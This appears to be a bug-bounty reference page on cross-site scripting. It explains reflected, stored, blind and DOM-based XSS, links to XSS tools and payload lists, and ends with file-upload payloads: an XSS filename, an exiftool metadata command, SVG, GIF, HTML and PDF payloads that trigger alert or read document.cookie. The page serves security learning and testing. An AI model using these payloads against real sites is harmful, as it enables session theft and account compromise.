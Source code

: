 ```yaml
---
description: Below are some references for the Cross-site scripting attacks.
---
```


# Cross-site scripting (XSS)

### Concept

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

{% embed url="https://www.youtube.com/watch?v=EoaDgUgS6QA" %}

{% embed url="https://www.youtube.com/watch?v=gkMl1suyj3M" %}

### Types of XSS's

* Reflected cross-site scripting.
* Stored cross-site scripting. \[Blind XSS comes under S-XSS)
* Document Object Model-based cross-site scripting

### [Reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected)

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

### [Stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored)

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. Stored XSS allows potential attackers to inject client-side scripts directly onto target servers. This is not just a single user issue, however, it affects everyone who has access to these servers. Once attackers find a vulnerability in the web application, they can inject their script and wait for an unsuspecting target to fall into their trap. Sites that allow their users to share content (like blogs or social networking sites) are often the most targeted. The injected script is permanently stored on the now infected servers and allows the attacker to set their targets up to receive the malicious script from the servers when they make a request.

### [Blind Cross-site scripting](https://medium.com/@R0X4R/introduction-to-blind-xss-417dcf9c842c)

Blind XSS vulnerabilities are a variant of persistent XSS vulnerabilities. They occur when the attacker input is saved by the web server and executed as a malicious script in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded. The attacker input can be executed in a completely different application (for example an internal application where the administrator reviews the access logs or the application exceptions).

### [Document Object Model-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based)

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

### Automation XSS

{% embed url="https://github.com/theinfosecguy/QuickXSS" %}

### Tools

{% embed url="https://xsshunter.com/features" %}
The Best tool for Blind XSS
{% endembed %}

{% embed url="https://github.com/ssl/ezXSS" %}
Has 2fa, email reports, share reports feature
{% endembed %}

{% embed url="https://knoxss.me/" %}
Knoxss
{% endembed %}

{% embed url="https://www.irongeek.com/homoglyph-attack-generator.php" %}

{% embed url="https://portswigger.net/burp/documentation/collaborator" %}

### XSS via file upload payloads

**XSS in a filename**

```markup
"><img src=v onerror=prompt(xss);>.jpeg
```

#### Metadata (exit tool)

```markup
exiftool -Artist=’ “><img src=1 onerror=alert(document.domain)>’
brute.jpeg
```

#### SVG content XSS (save the below content in SVG file)

```markup
<svg xmlns="http://www.w3.org/2000/svg"
onload="alert(document.domain)"/>
```

#### Gif extension XSS (save the below content in gif file)

```markup
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
```

#### Html extension (save the below content in HTML file)

```markup
<!DOCTYPE html>
<html>
<head>
<title>XSS</title>
</head>
<body>
<script type="text/javascript">alert(document.cookie)</script>
<script>prompt(1);</script>
</body>
</html>
```

#### PDF extension (When content-type is not checked and magic bytes and file extensions are being checked).

```markup
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<img src=x onerror=alert(document.cookie)>
```

### Reference's

{% embed url="https://brutelogic.com.br/blog/" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting" %}

{% embed url="https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d" %}

{% embed url="https://t.co/7O45xvRMf4?amp=1" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection" %}

{% embed url="https://github.com/payloadbox/xss-payload-list" %}

{% embed url="https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot" %}

{% embed url="https://github.com/s0md3v/AwesomeXSS" %}


